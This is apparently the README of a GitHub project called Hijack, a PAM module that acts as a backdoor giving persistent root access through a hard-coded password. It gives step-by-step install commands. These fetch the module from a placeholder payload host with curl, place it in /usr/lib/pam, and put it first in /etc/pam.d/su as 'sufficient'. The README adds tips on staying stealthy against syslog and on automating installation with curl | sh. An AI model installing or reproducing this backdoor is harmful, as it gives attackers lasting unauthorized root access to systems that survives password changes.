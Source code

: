 # Hijack
Hijack is a PAM module created to act as a shim enabling sustained access to an UNIX-based computer, even in the event of a password change.

**DISCLAIMER**

 This small utility is provided for educational use on machines you own or whose owner has given you their full consent. You are solely responsible for any, uh... trouble in which you might (and probably will) find yourself after using hijack under other conditions.

**NOTES ON SECURITY**

 Hijack is not exactly designed with security in mind. Of course, you are free to use it as a foothold to get back into your box in the event of a password mishap (or some similar event), but this is *not* recommended by any means. As of the current version, the "secret" password hijack checks against is simply a string literal stored in plaintext within the hijack binary. Anyone who greps through the binary can see it.
 ```
 $ strings /usr/lib/pam/hijack.so
 hijack
 $ # ouch!
 ```
 I know, I know, this really shouldn't happen. But it does, and I'm too lazy to do anything about it.

 Fixing it is actually only a matter of incorporating a hash function, and probably won't take long – but alas, there's never a shortage of other crap I have to do. If anyone wants to have a go at it, I'd be happy to accept a pull request.

## Features and Relevant Caveats
I didn't think this would really be useful to anyone else, but I've surprisingly had several people request the source and so decided put it up here on Github. This code has only been tested on Mac OS X (versions 10.7 - 10.10), but it should theoretically build and function on any UNIX system that employs PAM authentication. Like everything else Apple, OSX PAM headers are likely to be a bit out of whack so linux support might take a bit of trial and error. If anyone does manage to figure it out, please do tell how you've made it work.

IMPORTANT: Hijack does **not** affect LoginWindow.app (the Mac OS X login screen), as it refuses to go through PAM for some reason. Hijack **does** however work fine in conjunction with setuid-based privilege management systems like su/sudo and over traditional UNIX remote access services such as SSH/telnet/rlogin, etc. Ironically, the Mac OS X screensaver password lock also seems to work without a hitch.

## Building
Building hijack is not very difficult. It've gotten it to build flawlessly with both clang and tcc on my MacBook; YMMV with other setups. There's no configure script or anything, just a Makefile. The code itself is stupidly simple, as it's just a shim. Modify the Makefile as needed if your toolchain complains about something; it's only around 15 lines long.

For those of you who aren't familiar with the unix build system: just pop open a shell window, cd to the source directory, and type `make`. Mac OS X users will need to have installed Apple's Xcode command line tools package for this to work correctly – if you haven't already done so just execute `xcode-select --install` in your shell and click "Install" (*not* "Get Xcode", unless of course you want to toss ~8GB of SSD space out the window).

## Installing
Installing is also a walk in the park, but it does require you to spend a minute or so on the admin account of the machine in question. It'll work over SSH (or any other remote PTY) as well of course, so physical access is not necessarily a prerequisite in every case. The process itself remains more or less identical across different machines running the same OS, and can easily be automated with a shell script – which in turn speeds installation even further, especially when paired with a `curl | sh`-style pipe command. Such a script is intentionally not included for (hopefully) obvious reasons. If you require this or similar functionality though, rest assured that it's completely trivial to implement by oneself.

**(1)** Move a copy of the shared library file `hijack.so` into your PAM library path. The precise location differs according to operating system – on some systems it can be ascertained by simply scrolling to the end of PAM's manual page ('man pam'), others might have you resorting to something like `locate pam_rootok` which, while perfectly functional, is a little bit messy in my opinion. On Mac OS X however, I've found that it's nearly always `/usr/lib/pam/`.
```
    $ sudo -i
    Password:
    # curl -L http://web.server.hosting.payload/payloads/hijack.so -o /usr/lib/pam/hijack.so
```
The OSX enthusiasts among you may have flinched at the `.so` file extension – for once, I'm actually not being a newb: PAM recommends that modules be named this way even when they are technically in Mach-O `dylib` format.

**(2)** Change the permission attributes of `/usr/lib/pam/hijack.so` to match the other "real" PAM modules in `/usr/lib/pam`. On my MacBook, this is `root:wheel` ownership and mode 0444. In this case I downloaded the file as root, so already had the correct ownership – but I'll just `chown` it anyway for kicks.
```
    # cd /usr/lib/pam
    # chown root:wheel hijack.so
    # chmod 0444 hijack.so
```

**(3)** Edit the configuration files in `/etc/pam.d` so that `hijack.so` has the `sufficient` role for the services you'd like to have it affect. Keep in mind that some services (e.g. sudo) log their activity with syslog, so if you're trying to be stealthy you might want to think twice as to how you're getting root. Lastly, make sure the entry is at the top, or PAM won't check it first. Here's my `/etc/pam.d/su` file, for example:
```
auth       sufficient     hijack.so
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
This will cause `su`'s PAM calls to route through hijack, returning successful if the password given is equivalent to the one hard-coded into library, and falling back to OpenDirectory if not. Note that there is no need to remove or comment out the pam_group line as hijack will return successful before PAM has the opportunity to evaluate it.

**(4)**  Test it out!
```
$ su
Password:
#
```
After providing the hijack password (from any user) *or* the actual root password (as an admin/wheel user), `su` should give you a root shell. If not, you probably missed a step somewhere along the line.
